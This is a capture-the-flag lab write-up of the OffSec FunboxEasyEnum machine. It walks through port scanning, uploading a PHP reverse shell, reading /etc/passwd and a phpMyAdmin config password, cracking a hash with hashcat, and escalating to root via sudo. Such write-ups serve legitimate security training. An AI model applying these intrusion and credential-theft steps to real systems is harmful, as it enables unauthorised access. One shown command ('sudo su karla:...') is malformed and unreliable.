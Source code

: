 +++
title= "FunBoexEasyEnum by OffSec"
author= "v3l1d"
date= "2024-08-17"
draft= false
+++

![image1](FunboxEasyEnum/Homepage-default-preview.jpg)

On a lazy Saturday morning, August 17, 2024, I embarked on a thrilling adventure in the world of Offensive Security, tackling the FunboxEasyEnum box on the Proving Grounds Play labs. This easy-level warmup machine was the perfect way to kick-start my journey, and I'm excited to share my experience with you.

### Port Scan

From port scan we got:

```
nmap -sC -sV -A -T4 -p- 192.168.235.132  -o scan 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-14 08:12 EDT
Nmap scan report for 192.168.235.132
Host is up (0.075s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9c:52:32:5b:8b:f6:38:c7:7f:a1:b7:04:85:49:54:f3 (RSA)
|   256 d6:13:56:06:15:36:24:ad:65:5e:7a:a1:8c:e5:64:f4 (ECDSA)
|_  256 1b:a9:f3:5a:d0:51:83:18:3a:23:dd:c4:a9:be:59:f0 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.77 seconds

```


### Enumeration 

Ran gobuster for directory enumeration:

![image2](FunboxEasyEnum/Pasted image 20240814141922.png)

Only /phpmyadmin is accessible
![image1](FunboxEasyEnum/Pasted image 20240814142029.png)

Analyzing burp request found that /phpmyadmin/js/whitelist.php and /js/messages.php are readable:
![image1](FunboxEasyEnum/Pasted image 20240814143143.png)

Nothing interesting here, re run enumeration with gobuster filtering for php file:

![image1](FunboxEasyEnum/Pasted image 20240814144359.png)

Try mini.php:

![image1](FunboxEasyEnum/Pasted image 20240814144433.png)
### Access

I uploaded a shell.php while listening on my kali:

![image1](FunboxEasyEnum/Pasted image 20240814145857.png)

```shell
lrwxrwxrwx   1 root root        31 Sep 18  2020 vmlinuz.old -> boot/vmlinuz-4.15.0-117-generic
$ cd /var/www/ 
$ ls
html
local.txt
$ cat local.txt
896e80f60f8536d18c123448e656a7fc
$ 

```

Found first flag


```shell
www-data@funbox7:/etc$ cat passwd
cat passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
karla:x:1000:1000:karla:/home/karla:/bin/bash
mysql:x:111:113:MySQL Server,,,:/nonexistent:/bin/false
harry:x:1001:1001:,,,:/home/harry:/bin/bash
sally:x:1002:1002:,,,:/home/sally:/bin/bash
goat:x:1003:1003:,,,:/home/goat:/bin/bash
oracle:$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0:1004:1004:,,,:/home/oracle:/bin/bash
lissy:x:1005:1005::/home/lissy:/bin/sh
www-data@funbox7:/etc$ 

```

There's an hash in passwod

```shell
hashcat -m 500 oracle_hash
found:hiphop

```

Regain the revshell and from www-data run sudo su

``` shell
www-data@funbox7:/etc/phpmyadmin$ ls
ls
apache.conf    config.footer.inc.php  htpasswd.setup      phpmyadmin.service
conf.d         config.header.inc.php  lighttpd.conf
config-db.php  config.inc.php         phpmyadmin.desktop
www-data@funbox7:/etc/phpmyadmin$ cat config-db.php
cat config-db.php
<?php
##
## database access settings in php format
## automatically generated from /etc/dbconfig-common/phpmyadmin.conf
## by /usr/sbin/dbconfig-generate-include
##
## by default this file is managed via ucf, so you shouldn't have to
## worry about manual changes being silently discarded.  *however*,
## you'll probably also want to edit the configuration file mentioned
## above too.
##
$dbuser='phpmyadmin';
$dbpass='tgbzhnujm!';
$basepath='';
$dbname='phpmyadmin';
$dbserver='localhost';
$dbport='3306';
$dbtype='mysql';

```

Now we can log in phpmyadmin

![image1](FunboxEasyEnum/Pasted image 20240815213653.png)

```
sudo su karla:tgbzhnujm! 
```

Let's see what karla can run

``` shell
karla@funbox7:~$ sudo -l
[sudo] password for karla: 
Matching Defaults entries for karla on funbox7:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User karla may run the following commands on funbox7:
    (ALL : ALL) ALL

```

Run sudo su with its password:
```
karla@funbox7:~$ sudo su
root@funbox7:/home/karla# ls
root@funbox7:/home/karla# cd /root/root.txt
bash: cd: /root/root.txt: No such file or directory
root@funbox7:/home/karla# cd /root
root@funbox7:~# ls
proof.txt  root.flag
root@funbox7:~# 
```

![image1](FunboxEasyEnum/Pasted image 20240815214144.png)


# Flags

```
local:896e80f60f8536d18c123448e656a7fc
proof.txt: d0a70330bf49d3799b000cbe3d7ec011
```

